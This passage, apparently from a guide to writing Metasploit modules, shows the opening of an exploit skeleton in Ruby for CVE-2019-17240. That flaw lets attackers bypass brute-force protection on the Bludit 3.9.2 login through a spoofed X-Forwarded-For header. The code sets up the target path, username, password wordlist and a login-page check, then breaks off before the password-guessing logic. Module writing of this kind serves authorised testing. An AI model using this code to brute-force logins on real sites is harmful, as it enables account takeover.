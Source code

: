 - Brute-force helpers: `Msf::Auxiliary::Scanner`, `Msf::Auxiliary::Report`
    

Search similar modules for exact mixins to reuse.

---

## Minimal Exploit Skeleton (HTTP example – tabs required)

```ruby
##
# This module requires Metasploit: https://metasploit.com/
##

class MetasploitModule < Msf::Exploit::Remote
	include Msf::Exploit::Remote::HttpClient

	Rank = NormalRanking

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Bludit 3.9.2 Auth Bruteforce Mitigation Bypass',
			'Description'    => %q{
				Bludit ≤ 3.9.2 allows bypass of brute-force mitigation via X-Forwarded-For.
			},
			'Author'         => [
				'rastating',     # discovery
				'0ne-nine9'      # MSF module
			],
			'References'     => [
				[ 'CVE', '2019-17240' ],
				[ 'URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/' ],
				[ 'URL', 'https://github.com/bludit/bludit/pull/1090' ]
			],
			'License'        => MSF_LICENSE,
			'Platform'       => [ 'linux' ],
			'Arch'           => ARCH_GENERIC,
			'Targets'        => [
				[ 'Automatic', { } ]
			],
			'DefaultTarget'  => 0,
			'DisclosureDate' => '2019-10-06'
		))

		register_options(
			[
				OptString.new('TARGETURI', [ true, 'Base path', '/' ]),
				OptString.new('BLUDITUSER', [ true, 'Bludit username', 'admin' ]),
				OptPath.new('PASSWORDS', [ true, 'Password list',
					File.join(Msf::Config.data_directory, 'wordlists', 'passwords.txt')
				])
			]
		)
	end

	def check
		res = send_request_cgi('uri' => normalize_uri(target_uri.path, 'admin', 'login'))
		return Exploit::CheckCode::Detected if res && res.code == 200 && res.body.include?('tokenCSRF')
		Exploit::CheckCode::Unknown
	end

	def get_csrf(login_uri)
		res = send_request_cgi('uri' => login_uri)
		fail_with(Failure::UnexpectedReply, 'No login page') unless res && res.code == 200
```